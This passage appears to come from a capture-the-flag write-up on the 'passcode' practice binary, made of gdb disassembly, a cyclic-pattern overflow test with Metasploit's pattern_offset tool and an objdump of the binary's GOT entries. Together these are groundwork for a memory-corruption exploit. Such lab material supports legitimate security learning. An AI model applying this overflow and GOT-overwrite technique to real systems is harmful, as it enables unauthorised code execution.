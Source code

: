    0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmp    DWORD PTR [ebp-0x10],0x528e6
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave
   0x080485f0 <+140>:	ret
   0x080485f1 <+141>:	mov    DWORD PTR [esp],0x80487bd
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	mov    DWORD PTR [esp],0x0
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
(gdb) break *0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) r
Starting program: /home/passcode/passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Welcome Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A!

Breakpoint 1, 0x080485c0 in login ()
(gdb) x/p ebp-0x10
No symbol table is loaded.  Use the "file" command.
(gdb) x/p $ebp-0x10
0xff884e48:	Undefined output format "p".
(gdb) x/x $ebp-0x10
0xff884e48:	0x41326441


kgn@kali:~$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 0x41326441
[*] Exact match at offset 96

(gdb) quit
A debugging session is active.

	Inferior 1 [process 54483] will be killed.

Quit anyway? (y or n) y
passcode@ubuntu:~$ objdump -R passcode

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin
0804a000 R_386_JUMP_SLOT   printf
0804a004 R_386_JUMP_SLOT   fflush
0804a008 R_386_JUMP_SLOT   __stack_chk_fail
0804a00c R_386_JUMP_SLOT   puts
0804a010 R_386_JUMP_SLOT   system
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit
0804a01c R_386_JUMP_SLOT   __libc_start_main
0804a020 R_386_JUMP_SLOT   __isoc99_scanf
